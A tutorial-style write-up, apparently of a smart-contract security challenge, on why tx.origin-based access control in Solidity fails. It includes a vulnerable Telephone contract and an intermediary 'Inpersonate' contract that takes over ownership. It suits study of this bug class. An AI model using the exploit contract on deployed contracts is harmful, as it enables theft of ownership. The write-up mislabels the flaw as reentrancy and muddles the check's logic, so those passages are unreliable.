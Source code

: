 # Telephone Contract has an Access-Control Vulnerability

## How tx.origin Works
- In Ethereum, a transaction originates from an externally owned account (EOA), which could be a user’s wallet, and may then interact with a smart contract. When the smart contract is called, it can access tx.origin, which will be the address of the EOA that started the transaction, even if the call is forwarded or chained through multiple contracts.

## Issues with tx.origin
- While tx.origin can be useful in some cases, it has been known to introduce several problems, especially when used incorrectly or in certain patterns:

## Security Vulnerabilities (Reentrancy Attacks):
- Using tx.origin in a contract to determine the origin of a transaction can create vulnerabilities, especially when interacting with external contracts. For example, an attacker could exploit this by creating a contract that calls another contract, potentially bypassing the intended access control. If the contract logic is relying on tx.origin, it might mistakenly identify the attacker as the legitimate user.

### Example: 
- A contract that uses tx.origin to check if the transaction is initiated by an external user might be tricked into executing sensitive logic if the attacker’s contract intermediates the transaction.

## Risk of Misuse in Access Control:
- If a contract relies on tx.origin for access control, it can lead to unwanted behaviors. For instance, using tx.origin to check if a transaction is initiated by a specific address can cause problems when interacting with other contracts. This is because the tx.origin will always refer to the originating external account and not the contract intermediary, which can break the access control logic.

  
## Telephone is Vulnerable
- Read and analyze code based on provided knowledge.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}


```
## Intermediary Contract
- This contract calls the Telephone contract, thus bypassing the Access-Control check.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract Inpersonate {
    address public owner;
    Telephone public telephone_victim;

    constructor(Telephone _telephone_victim){
        telephone_victim = Telephone(_telephone_victim);
        owner = msg.sender;

    }

    function change() public {
        telephone_victim.changeOwner(owner);
    }
       
}
```

## Vulnerability in Action:<br />
- The Telephone contract has a vulnerability where it checks tx.origin (the original address that initiated the transaction) to determine access control or perform some sensitive operation, it can be tricked by an intermediary contract like Contract A.<br />

- In this case, even though the Inpersonate contract called the Telephone contract,  the Telephone contract will still see tx.origin as your address.<br />

- Since the Telephone contract has a condition like require(tx.origin != msg.sender), it will mistakenly think you (the original transaction sender) are the one interacting, even though the Inpersonate contract is the one calling it. <br /> This effectively bypasses any access control that was relying on tx.origin.

## Conclusion:<br />
- This is a classic security vulnerability in Solidity when relying on tx.origin for access control. It's crucial to never rely on tx.origin to validate the origin of a transaction for things like permissions or sensitive actions. Instead, you should use msg.sender, which refers to the immediate caller of the function, and properly enforce access control with explicit logic.
